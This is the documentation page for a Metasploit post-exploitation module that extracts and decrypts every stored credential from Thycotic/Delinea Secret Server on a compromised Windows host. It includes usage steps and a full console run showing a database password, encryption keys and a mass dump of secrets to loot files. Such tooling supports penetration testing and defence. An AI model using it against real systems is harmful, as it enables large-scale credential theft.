 This module exports and decrypts Secret Server credentials to a CSV file; it is intended as a
post-exploitation module for Windows hosts with Delia/Thycotic Secret Server installed. Master
Encryption Key (MEK) and associated IV values are decrypted from `encryption.config` using a 
static key baked into the software. The module also supports parameter recovery for encryption
configs configured with Windows DPAPI. An optional parameter "LOOT_ONLY" allows the encryption
keys and encrypted database to be plundered for later offline decryption in situations where
expedience is necessary.

This module incorporates original research published by the authors of SecretServerSecretStealer,
a PowerShell script designed to harvest Secret Server credentials. The GitHub repo for
SecretStealer.ps1 includes tons of notes on the internals of Secret Server:

https://github.com/denandz/SecretServerSecretStealer

## Vulnerable Application
This module should have no problem decrypting the database for versions 10.4 through 11.2, though
it has only been tested against a system running version 11.2.  It is intended to be run after
successfully exploiting a Windows host with the Delia/Thycotic Secret Server software installed.
The module supports decryption of configuration files that have been protected by Windows DPAPI,
but does not support extraction of any secrets if the system is configured with a Hardware Security
Module (HSM).

## Verification Steps
This is a post module and requires a meterpreter session on the Microsoft Windows server host
with a configured instance of Delia/Thycotic Secret Server installed.

1. Start msfconsole
2. Get session on Secret Server host via method of choice and background it
3. Do: `use post/windows/gather/credentials/thycotic_secretserver_dump`
4. Do: `set session <session>`
5. Do: `dump`

## Options

### SESSION

Which session to use, which can be viewed with `sessions -l`

### LOOT_ONLY

Boolean value that determines whether the module terminates after extracting the elements required
to perform the decryption. If set to `true`, the module terminates after the MEK and database have
been added to loot; if set to `false`, the module will perform decryption of the database using
the extracted MEK values and add the resulting decrypted data to loot. This is a useful option to
enable where rapid exfiltration is desirable. 

## Scenarios
Example run from meterpreter session on a Windows Server 2019 host running Secret Server 11.2:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/thycotic_secretserver_dump
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > show options

Module options (post/windows/gather/credentials/thycotic_secretserver_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   LOOT_ONLY  false            no        Only loot the encryption keys and database dump for offline decryption
   SESSION    1                yes       The session to run this module on


Post action:

   Name  Description
   ----  -----------
   Dump  Dump Secret Server


msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > dump

[*] Validating target ...
[*] Hostname THYCOTIC IPv4 10.1.0.113
[*] Decrypt database.config ...
[+] Secret Server SQL Database Connection Configuration:
[+]     Instance Name: localhost\SQLEXPRESS
[+]     Database Name: SecretServer
[+]     Database User: sa
[+]     Database Pass: !-TUwX!_-gD-wak-cugyU-0GX0$vL-evYG2
[*] Decrypt encryption.config ...
[+] Secret Server Encryption Configuration:
[+]        KEY: fc35d1abcade1c180c699e10fbb3efeb
[+]     KEY256: e768c5223bafa5481faca1ee10b63fb80c699e10ffa694ce29adc66963d05109
[+]         IV: 2c2df1a68dbc29adc66041bd6e6e4ad3
[*] Init SQL client ...
[+] Found SQL client: sqlcmd
[*] Dump Secret Server DB ...
[+] 47842 rows loaded, 19915 unique SecretIDs
[+] Encrypted Secret Server Database Dump: /root/.msf4/loot/20220822090512_default_10.1.0.113_ss_enc_947808.csv
[*] Process Secret Server DB ...
[!] SecretID 4092 field SFTP Site contains invalid UTF-8 and will be stored as a Base64 string in the output file
[!] SecretID 11097 field Notes contains invalid UTF-8 and will be stored as a Base64 string in the output file
[-] SecretID 11319 field Notes failed to decrypt
[!] 47842 rows processed (1 rows failed)
[*] 47841 rows recovered: 34479 plaintext, 13336 decrypted (2699 blank)
[*] 45142 rows written (2699 blank rows withheld)
[+] 19836 unique SecretID records recovered
[+] Decrypted Secret Server Database Dump: /root/.msf4/loot/20220822090532_default_10.1.0.113_ss_dec_402297.csv
[*] Post module execution completed
msf6 post(multi/gather/thycotic_secretserver_dump) > 
```